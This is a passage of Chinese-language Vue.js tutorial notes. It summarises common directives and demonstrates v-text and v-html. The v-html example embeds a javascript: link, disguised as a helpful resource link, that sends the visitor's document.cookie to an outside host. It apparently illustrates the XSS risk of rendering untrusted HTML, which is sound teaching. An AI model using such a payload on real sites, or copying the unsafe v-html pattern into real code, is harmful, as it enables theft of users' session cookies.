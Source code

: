 

效果：

![img](https://img-blog.csdnimg.cn/img_convert/739ed5a4c0c853f138776edb8273dcb1.png)

总结：

之前学过的指令：

v-bind：单向绑定解析表达式，可简写为:
v-model：双向数据绑定
v-for：遍历数组 / 对象 / 字符串
v-on：绑定事件监听，可简写为@
v-if：条件渲染（动态控制节点是否存存在）
v-else：条件渲染（动态控制节点是否存存在）
v-show：条件渲染 (动态控制节点是否展示)
v-text指令：

作用：向其所在的节点中渲染文本内容

与插值语法的区别：v-text会替换掉节点中的内容，{{xx}}则不会。
————————————————

#### 017.2 html

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>v-html指令</title>
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<div id="root">
			<div>Hello，{{name}}</div>
			<div v-html="str"></div>
			<div v-html="str2"></div>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		new Vue({
			el:'#root',
			data:{
				name:'JOJO',
				str:'<h3>你好啊！</h3>',
				str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
			}
		})
	</script>
</html>

```
